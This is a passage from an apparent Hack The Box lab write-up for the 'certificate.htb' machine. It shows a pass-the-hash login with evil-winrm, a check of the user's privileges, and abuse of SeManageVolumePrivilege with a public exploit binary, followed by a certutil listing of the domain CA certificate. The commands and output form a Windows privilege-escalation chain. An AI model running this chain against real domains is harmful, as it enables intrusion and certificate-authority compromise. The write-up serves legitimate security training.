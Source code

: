 We can `winrm`
```powershell
evil-winrm -i certificate.htb -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6                                                                                                                             
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
```

Ryan has the following privileges.
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
```

The most interesting one being `SeManageVolumePrivilege`

Let's use [CsEnox's Binary](https://github.com/CsEnox/SeManageVolumeExploit) to exploit this privilege.

Let's transfer the exe over and execute it!
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> ./SeManageVolumeExploit.exe
Entries changed: 845
                                                                   
DONE
```

Let's find the `Serial Number` for the `CA`'s certificate.
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store my
my "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM 
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA                    
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
================ Certificate 1 ================    
Serial Number: 5800000002ca70ea4e42f218a6000000000002 
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb 
```